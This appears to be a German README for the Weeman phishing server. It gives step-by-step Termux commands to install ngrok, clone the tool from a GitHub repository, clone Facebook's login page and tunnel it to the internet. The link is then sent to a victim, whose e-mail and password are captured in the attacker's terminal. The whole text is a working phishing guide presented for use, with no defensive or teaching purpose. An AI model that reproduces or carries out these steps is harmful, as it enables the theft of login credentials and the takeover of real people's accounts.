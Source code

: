 # Weeman - http server for phishing

# Zuerst "ngrok"

SCHRITT FÜR SCHRITT "WEEMAN" IN TERMUX INSTALLIEREN :-
Teilen Sie Ihre Links über das Internet und schappen Sie sich die Login-daten
 --> installieren NGROK im vorraus

-gehe per Browser auf https://ngrok.com/download und lade die "Linux ARM" Zip

-in Termux nutzen wir jetzt folgende Befehle:

1. cd /sdcard/download
2. unzip ngrok.zip
3. cp ngrok $HOME
4. cd $HOME
5. ls
6. chmod 777 ngrok
7. ./ngrok
8. ./ngrok authtoken 844ZM.... [kopiere den Orginal Code der dir angezeigt wird, sobald du dich eingelogt hast]
 zu 8.: dieser schritt ist nicht unbedingt notwendig

# Installieren

TIPPE

  apt update && apt upgrade

dann TIPPE

  pkg install git

kopieren den folgenden Link

  git clone https://github.com/GottModusTermux/G0D

  ls

  cd G0D/weeman

  pkg install python2

  ls

  python2 weeman.py
  
# Ausführen

nach dem Start folgende befehle

Befehl 1 
  set url yoursite.com

Befehl 2 
  set port 8080

Befehl 3 
  set action_url yoursite.com
  
Befehl 4
  run
  
Nun öffnet ihr einen Browser und sucht
LOCALHOST:8080 oder 127.0.0.1:8080.

# ERÖFFNE EINE FACEBOOK-PHISHING SEITE.

TIPPE
  cd G0D/weeman

  python2 weeman.py

  set url https://www.facebook.com/

  set port 8080

  set action_url https://www.facebook.com/

  run

Jetzt können Sie Ihre Facebook-Phishing Seite einfach per Ngrok an Ihr Opfer weiterleiten...

-Neues Termux Fenster öffnen

-Ordner wo NGROK vorhanden ist
(hier im ordner G0D.... "cd G0D")

./ngrok http 8080

Oben rechts den unteren Link kopieren, und nun verschicken
Beispiel:
"https://denLinkKopieren.ngrok.io -> localhost:8080

sobald das Opfer seine Login-Daten eingegeben hat, 
können Sie seine E-Mail-ID und sein Passwort bei dem Termux Fenster "weeman" sehen



HTTP server for phishing in python.
Version 1.7.1 is the last and latest version for weeman.

# Requirements

* Python 2.7

# Platforms

* Linux
* Mac

# Copying

See 'LICENSE' and lib/bs4/COPYING.txt


